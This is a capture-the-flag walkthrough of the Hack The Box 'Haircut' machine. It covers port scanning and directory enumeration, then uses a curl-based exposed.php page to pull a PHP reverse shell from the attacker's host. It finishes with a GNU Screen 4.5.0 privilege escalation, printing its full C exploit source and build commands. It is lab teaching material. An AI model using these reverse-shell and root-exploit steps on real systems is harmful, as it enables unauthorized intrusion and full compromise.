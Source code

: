 # Recon

As usual we start with a port scan against the target:
```
sudo nmap -sV -p- -sC -oN nmap.txt -O 10.10.10.24 -T5
```

<img src="https://raw.githubusercontent.com/vbrunschot/Write-Ups/main/HackTheBox/Haircut/assets/1.png">

The scan results only show two open ports. We'll start with the webserver on port 80.

# Enumeration
As the website itself doesn't reveal anything we'll run gobuster on the target. We will also look for files using the ```-x php,hmtml``` argument.

<img src="https://raw.githubusercontent.com/vbrunschot/Write-Ups/main/HackTheBox/Haircut/assets/2.png">

# Initial Foothold
```exposed.php``` looks interesting. It looks like it uses curl to download a given website. We can abuse this by letting it upload a reverse php shell. We download a [reverse php shell](https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php) and change the IP and port to our attacking machine which has a listener ready.

We'll upload it to the ```/uploads``` directory found with gobuster. We'll probably have right permission on that folder. ```-o``` will save the file to the location provided.

```http://10.10.14.4:8000/shell.php -o uploads/shell.php```

Browsing to ```http://10.10.14.4:8000/shell.php``` will initiate the reverse shell.

<img src="https://raw.githubusercontent.com/vbrunschot/Write-Ups/main/HackTheBox/Haircut/assets/3.png">

Like usual we'll upgrade the shell. Python was not installed but running ```which python3``` tells us that python3 is.

```
python3 -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm

Press ctrl+z key combination 

stty raw -echo; fg
```

# Privilege Escalation
We can search for interesting files with SUID set by running the following command:
```
find / -perm -4000 -exec ls -l {} \; 2>/dev/null 
```
We spot ```/usr/bin/screen-4.5.0``` which has an privilege escalation exploit available. But because we won't have permission to run ```gcc``` on our target we'll first prepare some things locally.

[GNU Screen 4.5.0 - Local Privilege Escalation](https://www.exploit-db.com/exploits/41154)

Create: libhax.c
```
#include <stdio.h>
#include <sys/types.h>
#include <unistd.h>
__attribute__ ((__constructor__))
void dropshell(void){
    chown("/tmp/rootshell", 0, 0);
    chmod("/tmp/rootshell", 04755);
    unlink("/etc/ld.so.preload");
    printf("[+] done!\n");
}
```

Create: rootshell.c
```
#include <stdio.h>
int main(void){
    setuid(0);
    setgid(0);
    seteuid(0);
    setegid(0);
    execvp("/bin/sh", NULL, NULL);
}
```

```
gcc -fPIC -shared -ldl -o libhax.so libhax.c
gcc -o rootshell rootshell.c 
```
This will return some errors but we can ignore them. The code refers to other locations than our attacking machine but after we transfer them to the host it'll work fine.

Now that we have created the files we download them to our target. We change the references in ```ld.so.preload``` and finally run our rootshell trough ```screen```.

<img src="https://raw.githubusercontent.com/vbrunschot/Write-Ups/main/HackTheBox/Haircut/assets/5.png">



